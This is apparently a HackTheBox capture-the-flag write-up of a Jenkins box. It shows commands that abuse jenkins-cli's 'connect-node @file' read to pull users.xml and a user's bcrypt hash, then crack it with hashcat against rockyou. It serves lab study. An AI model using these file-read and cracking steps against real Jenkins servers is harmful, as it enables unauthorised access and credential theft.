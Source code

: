 Find the admin username that we just created 

```
find . -name "*ippsec*"
```

![[HackTheBox/Linux/attachments/Pasted image 20250513231721.png]]
- got the default jenkins file path for stored users 

Navigate to this directory 
```
cd /var/jenkins_home
```

![[HackTheBox/Linux/attachments/Pasted image 20250513231938.png]]

Check out `secret.key`

![[HackTheBox/Linux/attachments/Pasted image 20250513232006.png]]

Check out `users/ippsec/config.xml` and see ippsec's password hash
![[HackTheBox/Linux/attachments/Pasted image 20250513232133.png]]

There is a long string after the username...but the string can be found in `users/users.xml` 

![[HackTheBox/Linux/attachments/Pasted image 20250513232243.png]]

##### Find a user credential now that we know where to find creds 

Re-execute the java jar client to read the users.xml file

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/users/users.xml'
```

![[HackTheBox/Linux/attachments/Pasted image 20250513232651.png]]
- find jennifer user so can copy jennifer_`long string`

Get jennifer's password hash from config.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/users/jennifer_121082452345252485/config.xml'
```

![[HackTheBox/Linux/attachments/Pasted image 20250513232956.png]]
- grab this bcrypt hash 

Save jennifer's passsword hash to a file to crack with hashcat.

```
hashcat -m3200 jennifer.hash /usr/share/wordlists/rockyou.txt
```

Cracked her hash to `princess`
